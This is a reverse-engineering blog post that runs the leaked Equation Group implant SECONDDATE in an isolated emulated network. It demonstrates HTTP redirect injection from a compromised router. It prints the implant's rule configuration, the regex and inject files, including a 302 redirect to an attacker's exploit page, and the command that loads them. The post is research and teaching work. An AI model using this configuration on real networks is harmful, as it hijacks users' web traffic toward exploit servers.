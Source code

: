 ```yaml
---
layout: post
title: SECONDDATE in action
author: Wladimir J. van der Laan
tags: [eqgrp, malware]
categories: [Reverse-engineering]
---
```


Here I've taken the environment from the [BLATSTING Command-and-Control protocol]({{ site.baseurl
}}/2016/09/04/blatsting-command-and-control.html) article and extended it, so that the emulator works as a router
between an internal network with our victim and an external network, a mock version of the internet with just our
attacker and one web server:

<pre>
SimInternet, level 2

                      ╔════════════════════════════╗
                      ║ BLATSTING emulator         ║
╔════════════════╗    ║ ╔════════════════════════╗ ║    ╔════════════════╗  emulated
║ Victim host    ║    ║ ║  Emulated modules      ║ ║    ║ Attacker host  ║  serial
║                ║    ║ ║ ┌─────────┐ ┌────────┐ ║ ║    ║ ┌─────┐┌─────┐ ║  (control)
║ ┌─────────┐    ║    ║ ║ │ second  ◀┄▶ hash   │ ║ ║    ║ │httpd││SD LP│◀━━━━━━━━  
║ │ Browser │    ║    ║ ║ │ date    │ └────────┘ ║ ║    ║ └─────┘└─────┘ ║
║ └─────────┘    ║    ║ ║ │         │ ┌────────┐ ║ ║    ║      ↕         ║
║      ↕         ║    ║ ║ │         ◀┄▶ crypto │ ║ ║    ║ Linux nw. stck ║
║ Linux nw. stck ║    ║ ║ └─────────┘ └────────┘ ║ ║    ╚══════▲═════════╝
╚══════▲═════════╝    ║ ╚════▲════▲══════════════╝ ║           ┃   ╔══════════════════╗
       ┃              ║ ┌────▼──┐ ┆                ║           ┣━━━▶ Web server ACME  ║
       ┃              ║ │ [stub]│ ┆                ║ "outside" ┃   ║ Int. Widgits Ltd ║
       ┃     "inside" ║ │ core  │┌▼───────┐ Emu.nw.║ eth1      ┃   ╚══════════════════╝
       ┃         eth2 ║ └───────┘│ [stub] ◀┄┄┄┄┄┄┄┄▶◀━━━━━━━━━━┛
       ┗━━━━━━━━━━━━━▶◀┄┄┄┄┄┄┄┄┄┄▶ network│ Stck   ║  Eth-over-UDP 
                      ║          └────────┘        ║               
                      ╚════════════════════════════╝
</pre>

This will allow using SECONDDATE as it was intended to be used, to redirect website visitors (but only on the isolated
virtual network). The attacker runs a web server to redirect the victim to, which serves exploit payloads (a FOXACID
server, in Equation Group jargon).

<iframe src="https://showterm.io/252abdc707d56d893210a" width="640" height="420"></iframe>

[Showterm session](https://showterm.io/252abdc707d56d893210a) of the experiment described here.

### Setup: Attacker

We'll (as the attacker) set up the implant with this LP script:

```bash
disable 1
rule 1 --protocol 6 --dstport 80 --nocheckhttp --checkregex --inject --injectfile injectfile_tcp --regexfile regex_tcp
enable 1
```

{: .center}
*tcptest.seconddate: configuration script for setting up SECONDDATE.*

```bash
rule [rulenum] [opts ...]           Sets options for a rule.
                                      where opts is one or more of the following options
                                     (defaults are shown in parentheses):
                                     [--srcaddr addr(0)] [--srcmask mask(0)]
                                     [--dstaddr addr(0)] [--dstmask mask(0)]
                                     [--protocol prot(6/TCP)] [--srcport port(0)] [--dstport port(0)]
                                     [--mininterval(60)] [--maxinjections(5)] [--injectwindow(0)]
                                     [--checkhttp (default) | --nocheckhttp]
                                     [--checkregex (default) | --nocheckregex]
                                         [--inject (default) | --noinject
                                     [--tcpflag (FIN ACK PSH) URG | ACK | PSH | RST | SYN | FIN ]
                                     [--regexfile <filename>] [--injectfile <filename>
```

{: .center}
*SD rule definitions, from SecondDateLp `help`.*

The script does the following:

- `disable 1`: Disable any previous rule 1 (this allows for quick reloading, as live rules cannot be re-configured).
- `rule 1 ...`: Set up rule 1.
  - `--protocol 6`: Match IP protocol 6, [which happens to be
    TCP](https://en.wikipedia.org/wiki/List_of_IP_protocol_numbers). Only TCP or UDP allowed here.
  - `--dstport 80`: Destination port 80, HTTP.
  - `--nocheckhttp`: Don't use the built-in regexp for HTTP, that's no fun. Define our own.
  - `--checkregex`: Check for regex defined in `--regexfile` below.
  - `--inject`: Do packet injections.
  - `--injectfile injectfile_tcp`: Set data to inject on injection.
  - `--regexfile regex_tcp`: Set regexp to match.
- `enable 1`: Make rule 1 live.

It is possible to fine-tune various parameters such as the maximum number of injections, the time within which this has
to happen, the time between injections and so on and so on, but the defaults work fine for sake of this demo.

```bash
^GET / .*
```

{: .center}
*`regex_tcp`: The regular expression to match on TCP packets. This looks for HTTP GET requests to the root, any version.
This can be any valid [PCRE](https://www.debuggex.com/cheatsheet/regex/pcre) regular expression.*

```bash
HTTP/1.1 302 Found
Location: http://192.168.1.1/exploit.html

grazing buzzards
```

{: .center}
*`injectfile_tcp`: This will be injected into the TCP session. A basic HTTP temporary redirect to the evil web server.
`grazing buzzards` is just a 16-byte string that I use for finding the packet in captures.*

Then subsequently load it into the implant by invoking the LP command from the shell and piping in the script:

```bash
$ ./SecondDate-3.1.1.0.SecondDateLp 192.168.1.2 < tcptest.seconddate
```

{: .center}
*Loading the rules, from LP-side serial console.*

### Setup: Victim

The victim is simply using a PC running a browser and is trying to visit a website over HTTP. Luckily with [HSTS
preloading](https://en.wikipedia.org/wiki/HTTP_Strict_Transport_Security) the latter is happening less and less in
practice. For the sake of being able to record the terminal session they are using the venerable browser `lynx`,
but this will work with any browser.

### The attack

The victim, from IPv4 address `192.168.2.1`, is trying to visit the legitimate web server of ACME Internet Widgits Ltd.
at `192.168.1.100`, through their router (Internet IP `192.168.1.2`). They will be redirected to the attacker's host,
`192.168.1.1`, which hosts an exploit page. To recap:

<pre>
                                                           ╔══════════╗
╔════════════════╗                                         ║ Attacker ║
║ Victim host    ║                                         ╚════▲═════╝
║                ║                  ╔═════════════╗             ┃ 192.168.1.1
║ ┌─────────┐    ║ 192.168.2.1      ║ Compromised ║             ┃  
║ │ Browser │    ◀━━━━━━━━━━━━━━━━━━▶ Router      ◀━━━━━━━━━━━━━┫
║ └─────────┘    ║      192.168.2.2 ╚═════════════╝ 192.168.1.2 ┃
║                ║                                              ┃ 192.168.1.100
║                ║                                 ╔════════════▼═════╗
╚════════════════╝                                 ║ Web server ACME  ║
                                                   ║ Int. Widgits Ltd ║
                                                   ╚══════════════════╝
</pre>

What happens:

- Victim opens `http://192.168.1.100/` in their browser, which opens a connection to the web server of
  ACME Int. Widgits Ltd.

{: .center}
![ACME Internet Widgits Ltd]({{ site.baseurl }}/assets{{ page.id }}/acme.png "ACME Internet Widgits Ltd")

*The website of ACME Internet Widgits Ltd., which has a world-wide monopoly on delivering Schrödinger's boxes by drone. Cat not included.*

- SD, running on the compromised router, triggers on the first content packet of this connection, eats it, and instead injects a packet to redirect
  to the attacker's server, then immediately closes the connection. It resets the connection to the original web server with a TCP RST packet.

{: .center}
[![Injected packet in wireshark]({{ site.baseurl }}/assets{{ page.id }}/injection.png "Injected packet in wireshark")]({{ site.baseurl }}/assets{{ page.id }}/injection.png)

*Injected packet as seen from the inside network. The RST going to both the webserver and client to immediately
end the connection afterward is also visible. The full captures can be downloaded below.*

- Victim is redirected to `http://192.168.1.100/exploit.html`, and will load whatever is on that page. 

{: .center}
![Lazy exploit]({{ site.baseurl }}/assets{{ page.id }}/exploit.png "Lazy exploit")

*The ultimate lazy exploit, just for illustration. Not only does the victim have to adjust their CPU's
instruction pointer manually, they'd have to first finish writing the shellcode. The Equation Group has better ones
available. The target link would in practice point to a browser exploit (usually aimed at a plugin such as Flash), or a
backdoored installer when intercepting a download.*

- Note that when the victim immediately loads the site again they won't get redirected again. The `mininterval` serves
  as a cool-down period.

Packet captures:

- [seconddate_int.cap]({{ site.baseurl }}/assets{{ page.id }}/seconddate_int.cap) internal network
- [seconddate_ext.cap]({{ site.baseurl }}/assets{{ page.id }}/seconddate_ext.cap) external network (includes [C&C]({{ site.baseurl }}/2016/09/17/seconddate-cnc.html)
  traffic)

